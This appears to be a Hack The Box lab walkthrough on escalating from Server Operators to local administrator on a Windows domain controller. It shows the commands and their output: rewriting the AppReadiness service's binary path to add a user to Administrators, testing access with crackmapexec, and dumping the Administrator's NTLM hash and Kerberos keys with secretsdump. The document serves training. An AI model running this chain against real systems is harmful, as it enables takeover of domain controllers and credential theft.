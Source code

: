 # Server Operators

**Server Operators** is a group which allow all members to manage windows servers without needing assignment of Domain Admin privileges

Membership of this group confers the powerful **`SeBackupPrivilege`** and **`SeRestorePrivilege`** privileges and the ability to **control local services.**

### **We will exploit the ability of control local services**

which we will edit service running with system privilege and we will user our privilege in server operators to control this serves to make us `Local Administrator`

***

## **Scanning the AppReadiness Service**

`AppReadiness` is a service found in windows

we found this service running with system privilege

```powershell
C:\htb> sc qc AppReadiness

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AppReadiness
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\System32\svchost.exe -k AppReadiness -p
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : App Readiness
        DEPENDENCIES       :
        **SERVICE_START_NAME : LocalSystem
        
 # LocalSystem is NT AUTHORITY\SYSTEM**
```

## **Checking Service Permissions with PsService**

we use it to check server operators permissions on the service.

`PsService` works much like the `sc` utility and can display service status and configurations and also allow you to start, stop, pause, resume, and restart services both locally and on remote hosts.

> We found our group has a full access

```powershell
C:\htb> c:\Tools\PsService.exe security AppReadiness

PsService v2.25 - Service information and configuration utility
Copyright (C) 2001-2010 Mark Russinovich
Sysinternals - www.sysinternals.com

SERVICE_NAME: AppReadiness
DISPLAY_NAME: App Readiness
        ACCOUNT: LocalSystem
        SECURITY:
        [ALLOW] NT AUTHORITY\SYSTEM
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                Pause/Resume
                Start
                Stop
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Administrators
                All
        [ALLOW] NT AUTHORITY\INTERACTIVE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] NT AUTHORITY\SERVICE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        **[ALLOW] BUILTIN\Server Operators
                All**
```

## **Checking Local Admin Group Membership**

to check our account is not present in this group

```powershell
 C:\htb> net localgroup Administrators

Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
The command completed successfully.
```

## **Modifying the Service Binary Path**

we will change binary path to execute command to add our current user to the administrators group

```powershell
C:\htb> sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"

[SC] ChangeServiceConfig SUCCESS
```

### **Starting the Service**

Starting the service fails, which is expected.

```powershell
C:\htb> sc start AppReadiness

[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

### **Confirming Local Admin Group Membership**

If we check the membership of the administrators group, we see that the command was executed successfully.

```powershell
C:\htb> net localgroup Administrators

Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
server_adm
The command completed successfully.
```

### **Confirming Local Admin Access on Domain Controller**

From here, we have full control over the Domain Controller and could retrieve all credentials from the NTDS database and access other systems, and perform post-exploitation tasks.

```powershell
irix@htb[/htb]$ crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'

SMB         10.129.43.9     445    WINLPE-DC01      [*] Windows 10.0 Build 17763 (name:WINLPE-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.43.9     445    WINLPE-DC01      [+] INLANEFREIGHT.LOCAL\server_adm:HTB_@cademy_stdnt! (Pwn3d!)
```

### **Retrieving NTLM Password Hashes from the Domain Controller**

```powershell
irix@htb[/htb]$ secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator

Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:5db9c9ada113804443a8aeb64f500cd3e9670348719ce1436bcc95d1d93dad43
Administrator:aes128-cts-hmac-sha1-96:94c300d0e47775b407f2496a5cca1a0a
Administrator:des-cbc-md5:d60dfbbf20548938
[*] Cleaning up...
```
